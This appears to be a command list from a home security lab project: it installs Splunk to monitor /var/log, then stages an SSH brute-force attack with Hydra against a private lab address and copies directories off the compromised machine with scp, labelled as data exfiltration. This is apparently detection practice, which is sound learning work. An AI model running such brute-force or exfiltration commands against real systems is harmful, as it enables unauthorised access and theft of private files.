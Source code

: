 
# Commands Used in the Project
### 1. Network Interface Activation

      ifup ens33

Purpose: Activates the network interface named "ens33" and initiates the process of obtaining an IP address through DHCP or static configuration.

### 2. Splunk Enterprise Download

      wget -O splunk-9.2.1-78803f08aabb-Linux-x86_64.tgz 'download_link'
      
Purpose: Downloads the Splunk Enterprise installation package from the Splunk website.

### 3. Extracting Splunk Package

      tar -xvzf splunk-9.2.1-78803f08aabb-Linux-x86_64.tgz -C /opt

Purpose: Extracts the downloaded Splunk package into the /opt directory.

### 4. Starting Splunk

      /opt/splunk/bin/splunk start --accept-license

Purpose: Starts Splunk Enterprise and accepts the license agreement.

### 5. Adding Splunk Monitor

            /opt/splunk/bin/splunk add monitor /var/log
   
Purpose: Adds the /var/log directory to the Splunk real-time monitoring system.

### 6. Hydra Brute Force Attack

            hydra -L username.txt -P password.txt -f ssh://192.168.80.161
   
Purpose: Uses Hydra to perform a brute force attack against the SSH service of the target machine.

### 7. SCP Command for Data Exfiltration

            scp -r lunar@192.168.80.161:/home/lunar/Client_Projects /local/destination
            scp -r lunar@192.168.80.161:/home/lunar/Personal_Doc /local/destination
   
Purpose: Downloads sensitive directories from the compromised machine to the local system using SCP.

